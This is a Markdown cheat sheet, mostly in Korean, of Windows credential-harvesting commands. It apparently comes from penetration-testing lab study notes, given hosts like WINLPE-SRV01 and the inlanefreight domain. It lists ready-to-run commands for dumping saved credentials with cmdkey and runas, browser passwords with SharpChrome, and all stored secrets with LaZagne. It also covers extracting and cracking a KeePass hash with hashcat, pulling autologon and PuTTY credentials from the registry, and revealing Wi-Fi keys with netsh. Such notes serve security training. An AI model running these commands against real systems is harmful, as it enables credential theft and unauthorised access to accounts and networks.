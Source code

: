 ## Cmdkey 저장된 자격 증명

### 저장된 자격 증명 나열
```cmdkey /list```

### 다른 사용자로 명령 실행
```runas /savecred /user:inlanefreight\bob "COMMAND HERE"```

## 브라우저 자격 증명
- [SharpChrome](https://github.com/GhostPack/SharpDPAPI)
```.\SharpChrome.exe logins /unprotect```

## 비밀번호 관리자
- [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py)

### KeePass 해시 추출
```python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx```

### 오프라인 해시 크래킹
```hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt```

## 이메일
- [MailSniper](https://github.com/dafthack/MailSniper)

## More Fun with Credentials

### Running All LaZagne Modules
- [LaZagne](https://github.com/AlessandroZ/LaZagne)
```.\lazagne.exe all```

## Even More Fun with Credentials

### 현재 사용자로 SessionGopher 실행
- [SessionGopher](https://github.com/Arvanaghi/SessionGopher)
```
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

## 레지스트리의 일반 텍스트 암호 저장

### reg.exe로 자동 로그온 열거
```reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"```

### Putty 세션 열거 및 자격 증명 찾기
```reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions```

## Wifi Passwords

### 저장된 무선 네트워크 보기
```netsh wlan show profile```

### 저장된 무선 비밀번호 검색
```netsh wlan show profile <profile 명> key=clear```
